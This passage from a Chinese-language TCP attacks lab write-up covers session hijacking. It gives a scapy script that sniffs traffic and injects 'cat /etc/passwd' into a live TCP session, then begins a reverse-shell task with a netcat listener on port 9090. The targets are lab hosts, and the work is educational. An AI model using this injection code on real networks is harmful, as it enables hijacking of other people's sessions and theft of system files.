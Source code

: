 ![image-20220511205323156](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220511205323156.png)

可以在之后10.9.0.7发回的包中找到返回的`/etc/passwd`中的内容：

![image-20220511205413882](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220511205413882.png)



### Launching the attack automatically

同理task2:

```python
#!/usr/bin/env python3
from socket import timeout
from scapy.all import *

dpkt = sniff(iface="br-fb6120b59b51", count=150, filter="tcp", timeout=8)
# wrpcap("demo.pcap", dpkt)

n = len(dpkt)-1   # start from dpkt[0]

srcIP = dpkt[n][IP].src
dstIP = dpkt[n][IP].dst
ip = IP(src=srcIP, dst=dstIP)

sportTCP = dpkt[n][TCP].sport
dportTCP = dpkt[n][TCP].dport
seqTCP = dpkt[n][TCP].seq
ackTCP = dpkt[n][TCP].ack
tcp = TCP(sport=sportTCP, dport=dportTCP, flags="A", seq=seqTCP, ack=ackTCP)

data = "cat /etc/passwd\r"

pkt = ip/tcp/data
ls(pkt)
send(pkt, verbose=0)
```

同样可以在wireshark中看到回复的内容：

![image-20220511222506270](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220511222506270.png)

## Task 4: Creating Reverse Shell using TCP Session Hijacking

攻击者利用TCP Session Hijacking来设置后门，这样他们就可以使用这个后门来方便地进行进一步的破坏。

attacker主机10.9.0.1运行`netcat`监听端口9090：

```terminal
nc -lv 9090
```

![image-20220511210446123](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220511210446123.png)
